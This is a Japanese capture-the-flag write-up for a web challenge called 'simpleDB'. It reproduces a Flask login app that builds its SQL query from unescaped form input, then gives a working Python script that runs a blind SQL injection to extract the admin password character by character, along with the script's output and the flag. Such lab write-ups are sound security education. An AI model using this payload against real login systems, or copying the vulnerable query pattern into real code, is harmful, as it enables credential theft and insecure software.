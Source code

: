 # simpleDB:Web:172pts
adminのパスワードを特定してください！ [http://20.205.137.99:49999/](http://20.205.137.99:49999/)  
[SimpleDB.zip](SimpleDB.zip)  

# Solution
URLとソースが与えられる。  
アクセスするとログインフォームのようだ。  
![site.png](site/site.png)  
次にソースを見ると以下のようであった。  
```python
from flask import Flask, request, jsonify, render_template
import sqlite3

app = Flask(__name__)

def init_db():
    conn = sqlite3.connect('database.db')
    c = conn.cursor()
    c.execute('CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY, username TEXT, password TEXT)')
    c.execute("INSERT INTO users (username, password) VALUES ('admin', 'shioCTF{**SECRET**}')")
    conn.commit()
    conn.close()

init_db()

@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        conn = sqlite3.connect('database.db')
        c = conn.cursor()
        query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
        c.execute(query)
        result = c.fetchone()
        conn.close()
        if result:
            return jsonify({'message': 'Login successful!'}), 200
        else:
            return jsonify({'message': 'Login failed!'}), 401
    else:
        return render_template('index.html')

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=49999)
```
自明なSQLiがあるが、ログインの成否しかわからない。  
adminのパスワードにフラグがあるようなのでブラインドで抜き出す。  
以下のsqli.pyで行う(今回は大文字小文字の区別がないのでLIKEでもよい)。  
```python
import sys
import string
import requests

flag = "shioCTF{"

while True:
    for c in string.printable:
        res = requests.post(
            "http://20.205.137.99:49999/",
            data={
                "username": f"admin' AND substr(password, 1, {len(flag) + 1}) = '{flag + c}'; -- satoki",
                "password": "omg",
            },
        )
        if "Login successful!" in res.text:
            flag += c
            print(flag)
            if c == "}":
                sys.exit(0)
            break
```
実行する。  
```bash
$ python sqli.py
shioCTF{b
shioCTF{b1
shioCTF{b1i
shioCTF{b1in
shioCTF{b1ind
shioCTF{b1ind_
shioCTF{b1ind_s
shioCTF{b1ind_sq
shioCTF{b1ind_sql
shioCTF{b1ind_sqli
shioCTF{b1ind_sqli_
shioCTF{b1ind_sqli_i
shioCTF{b1ind_sqli_i5
shioCTF{b1ind_sqli_i5_
shioCTF{b1ind_sqli_i5_d
shioCTF{b1ind_sqli_i5_d4
shioCTF{b1ind_sqli_i5_d4n
shioCTF{b1ind_sqli_i5_d4ng
shioCTF{b1ind_sqli_i5_d4nge
shioCTF{b1ind_sqli_i5_d4nger
shioCTF{b1ind_sqli_i5_d4nger0
shioCTF{b1ind_sqli_i5_d4nger0u
shioCTF{b1ind_sqli_i5_d4nger0u5
shioCTF{b1ind_sqli_i5_d4nger0u5!
shioCTF{b1ind_sqli_i5_d4nger0u5!}
```
flagが得られた。  

## shioCTF{b1ind_sqli_i5_d4nger0u5!}